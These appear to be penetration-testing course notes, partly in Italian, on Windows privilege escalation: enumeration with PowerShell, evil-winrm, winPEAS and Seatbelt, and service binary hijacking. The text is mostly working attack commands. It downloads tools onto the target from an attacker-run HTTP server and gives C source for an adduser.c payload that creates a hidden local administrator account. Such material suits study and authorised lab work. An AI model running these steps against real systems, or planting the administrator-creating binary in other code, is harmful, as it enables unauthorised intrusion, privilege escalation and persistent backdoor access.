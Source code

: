 ```bash
Get-History

(Get-PSReadlineOption).HistorySavePath

evil-winrm -i $IP -u username -p "password"
```

## 16.1.5. Automated Enumeration

```bash
cp /usr/share/peass/winpeas/winPEASx64.exe .
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries

python3 -m http.server 80

powershell
iwr -uri http://$MIO_IP/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe

iwr -uri http://$MIO_IP/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```

# 16.2. Leveraging Windows Services
## 16.2.1. Service Binary Hijacking

```bash
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

```bash
icacls "C:\...\file.exe"
```

|MASK|PERMISSIONS|
|---|---|
|F|Full access|
|M|Modify access|
|RX|Read and execute access|
|R|Read-only access|
|W|Write-only access|
Creazione del file **adduser.c** su kali:

```bash
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user nuovo_utente password123! /add");
  i = system ("net localgroup administrators nuovo_utente /add");
  
  return 0;
}
```
